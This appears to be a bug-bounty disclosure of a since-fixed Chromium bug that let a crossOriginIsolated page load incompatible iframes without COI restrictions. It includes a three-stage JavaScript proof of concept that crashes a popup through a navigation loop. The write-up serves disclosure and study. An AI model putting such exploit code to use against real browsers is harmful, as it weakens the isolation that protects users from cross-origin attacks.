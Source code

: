```yaml
---
title: crossOriginIsolated bypass (Awarded $3000)
---
```


This bug allowed for a `crossOriginIsolated` page to load non-COI-compatible iframes without the COI [restrictions](https://web.dev/why-coop-coep/), after navigating a popup to an invalid URL and crashing it. Cross-site page crashing was done by abusing [Issue 40744131](https://issues.chromium.org/issues/40744131).  
Video PoC: <https://www.youtube.com/watch?v=Ndh2JVPOv-E>

```js
async function stage1() {
  w = open('https://invalid.local');
}

// Stage 2 can be skipped if you use the chrome task manager to crash it.  Issue 40744131
async function stage2() {
  checker = open();
  for (;;) {
    checker.location = 'data:';
    await new Promise((resolve) => setTimeout(resolve, 0));
    checker.location = 'https://invalid.local';
    await new Promise((resolve) => setTimeout(resolve, 100));
  }
}

// Run this once invalid.local tab is crashed
async function stage3() {
  checker.close();
  w.location = 'data:html,foo';
  await new Promise((resolve) => setTimeout(resolve, 100));
  w.location = 'about:blank';
}
```

This was fixed in <https://issues.chromium.org/issues/40056434>
